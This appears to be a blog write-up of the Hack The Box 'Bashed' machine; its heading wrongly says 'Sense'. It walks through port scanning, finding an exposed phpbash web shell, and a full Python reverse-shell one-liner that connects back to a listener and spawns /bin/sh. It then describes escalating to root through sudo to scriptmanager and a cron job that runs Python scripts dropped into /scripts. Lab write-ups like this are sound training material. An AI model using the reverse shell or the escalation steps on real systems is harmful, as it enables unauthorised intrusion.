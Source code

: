 ```yaml
---
layout: post
title: "Bashed write-up"
date: 2018-04-28
excerpt: "A ton of text to test readability."
tags: [sample post, readability, test]
comments: true
---
```


# Hack The Box: Sense machine write-up

This was a machine regarded as easy by most users, but I must say I found the root part really challenging. Thankfully, I got it in the end.

The machine is running on port 10.10.10.68.

#### Enumeration

Firstly, I enumerate open ports to discover the services running in the machine. I ran the following:

```sh
$ nmap -sV -sC 10.10.10.68
```

Then I get that there's a website in port 80, so I head there.

*Webpage running*

![Img](/assets/posts_details/Bashed/images/webpage.png "Img")

There, I find an article about something called 'phpbash', which is like a web command-line. There's also a github repository: <https://github.com/Arrexel/phpbash>.

Hence, I think there must be some path in the machine where there's a shell. I use dirbuster and after a while I find this path: ``
http://10.10.10.68/dev/phpbash.php
``

After accessing it, I can easily read the user.txt located in ``/home/Arrexel/user.txt``.

#### Root

This is where things get complicated. As I don't like the web shell, I use a python one-liner I got from <http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet> to get a connection in my terminal (I listen with netcat and connect in port 1234). The code is:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Then, navigating again to the / directory, I find an interesting directory, called scripts (/scripts).

*/ directory*

![Img](/assets/posts_details/Bashed/images/root.png "Img")

However, I cannot either cd or see the contents of the file.

*/scripts directory*

![Img](/assets/posts_details/Bashed/images/scripts.png "Img")

Checking with ```sudo -l``` I find out that I can log in as the scriptmanager user without password, who is the creator of the /scripts directory.

*sudo -l output*

![Img](/assets/posts_details/Bashed/images/sudo-l.png "Img")

Thus, I check whether I can list the files of /scripts with ```sudo -u scriptmanager ls -al /scripts```.

*sudo -l output*

![Img](/assets/posts_details/Bashed/images/ls_as_scriptmanager.png "Img")

Success!!!

Next step is to get a shell as scriptmanager (so I can avoid repeating ```sudo -u scriptmanager```, which is a bit annoying). So I run in the webshell the python one-liner but I precede it with ```sudo -u scriptmanager```. And that's it, I'm scriptmanager.

After inspecting the files of ```/scripts``` directory, I find something odd: the test.py writes a string to test.txt, the later being owned by root. So, after listing the directories of ```/var/spool/cron/crontabs```, I discover there is a cron job running as root.

Maybe, if I create a python script in the ```/scripts``` directory, it gets run as root. So I create a file which contains a shell and listen with netcat. And, a few minutes later, a root shell spawns!

*Root shell and cron job*

![Img](/assets/posts_details/Bashed/images/End.png "Img")

Now I can read the cron job and indeed the system was executing all python scripts in that directory. Machine owned!

<small>_I must say the second part was more difficult than explained, I was stuck at it for over a week until I found out the scriptamanager part and thought about the cron job. However, it was a really rewarding experience._</small>

*Diego Bernal Adelantado*
